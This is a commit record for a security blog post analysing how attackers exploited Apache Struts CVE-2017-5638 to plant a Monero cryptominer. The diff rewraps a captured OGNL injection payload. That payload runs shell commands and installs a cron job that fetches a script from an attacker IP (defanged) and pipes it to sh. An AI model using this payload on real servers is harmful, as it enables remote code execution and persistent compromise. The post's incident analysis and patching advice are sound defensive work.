

Before and after one commit to num1r0/num1r0.github.io, a Jekyll site: the page built from _posts/2018-07-01-from-apache-struts-to-cryptominer.md, in a window 1280 px wide and 900 px high, scrolled down 707 px. Shown: the whole window, without its empty margins (224-1055 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
small edits

````diff
--- a/_posts/2018-07-01-from-apache-struts-to-cryptominer.md
+++ b/_posts/2018-07-01-from-apache-struts-to-cryptominer.md
@@ -22,7 +22,14 @@
 Accept-Encoding: gzip, deflate
 Accept: */*
 User-Agent: Mozilla/5.0
-Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo "*/20 * * * * wget -O - -q hXXp://5.188.87[.]12/icons/logo.jpg|sh\n*/19 * * * * curl hXXp://5.188.87[.]12/icons/logo.jpg|sh" | crontab -;wget -O - -q hXXp://5.188.87[.]12/icons/logo.jpg|sh').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
+Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context
+['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
+(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo "*/20 * * * * wget
+-O - -q hXXp://5.188.87[.]12/icons/logo.jpg|sh\n*/19 * * * * curl hXXp://5.188.87[.]12/icons/logo.jpg|sh" | crontab -;wget -O - -q hXXp://5.188.87[.]12/
+icons/logo.jpg|sh').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash',
+'-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=
+(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).
+(#ros.flush())}
 X-Forwarded-For: 5.188.10[.]251
 ```
 
@@ -87,8 +94,8 @@
 
 ![MineXMR Servers](../img/miner_servers.png){:.post_image}
 
+![Miners Profit](../img/miner_profit.png){:.post_image}
+
 Even if CVE-2017-5638 was fixed relatively fast, attackers had success exploiting this for another year or so. This earned them 314.485 XMR (~ $15.286) *at least*.
 
-![Miners Profit](../img/miner_profit.png){:.post_image}
-
 As a conclusion, I would say PATCH! PATCH! and PATCH! This is the easiest and *cheapest* way to stay mitigate a a big part of security risks.
````
